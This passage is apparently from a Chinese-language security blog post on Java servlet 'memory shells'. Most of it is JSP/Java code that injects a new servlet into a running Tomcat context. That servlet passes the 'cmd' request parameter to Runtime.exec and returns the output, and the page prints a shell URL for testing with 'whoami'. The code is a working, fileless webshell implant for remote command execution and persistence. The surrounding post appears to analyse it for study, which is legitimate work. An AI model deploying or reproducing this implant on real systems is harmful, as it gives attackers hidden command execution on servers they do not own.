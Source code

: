 ```java  
            @Override  
            public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {  
                String cmd = servletRequest.getParameter(&#34;cmd&#34;);  
                {  
                    InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();  
                    Scanner s = new Scanner(in, &#34;GBK&#34;).useDelimiter(&#34;\\A&#34;);  
                    String output = s.hasNext() ? s.next() : &#34;&#34;;  
                    servletResponse.setCharacterEncoding(&#34;GBK&#34;);  
                    PrintWriter out = servletResponse.getWriter();  
                    out.println(output);  
                    out.flush();  
                    out.close();  
                }  
            }  
            @Override  
            public String getServletInfo() {  
                return null;  
            }  
            @Override  
            public void destroy() {  
            }  
        };  
        Wrapper wrapper = standardContext.createWrapper();  
        wrapper.setName(servletName);  
        wrapper.setServlet(servlet);  
        wrapper.setServletClass(servlet.getClass().getName());  
        wrapper.setLoadOnStartup(1);  
        standardContext.addChild(wrapper);  
        standardContext.addServletMappingDecoded(servletURL, servletName);  
        response.getWriter().write(&#34;[&#43;] Success!!!&lt;br&gt;&lt;br&gt;[*] ServletURL:&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&#34; &#43; servletURL &#43; &#34;&lt;br&gt;&lt;br&gt;[*] ServletName:&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&#34; &#43; servletName &#43; &#34;&lt;br&gt;&lt;br&gt;[*] shellURL:&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;http://localhost:8080/&#34; &#43; servletURL &#43; &#34;?cmd=whoami&#34;);  
    } catch (Exception e) {  
        String errorMessage = e.getMessage();  
        response.setCharacterEncoding(&#34;UTF-8&#34;);  
        PrintWriter outError = response.getWriter();  
        outError.println(&#34;Error: &#34; &#43; errorMessage);  
        outError.flush();  
        outError.close();  
    }  
%&gt;  
&lt;/body&gt;  
&lt;/html&gt;  
&lt;%!  
    private String getRandomString() {  
        String characters = &#34;abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ&#34;;  
        StringBuilder randomString = new StringBuilder();  
        for (int i = 0; i &lt; 8; i&#43;&#43;) {  
            int index = (int) (Math.random() * characters.length());  
            randomString.append(characters.charAt(index));  
        }  
        return randomString.toString();  
    }  
%&gt;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501302351120.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501302351775.png)
#### servlet内存马 demo 代码分析  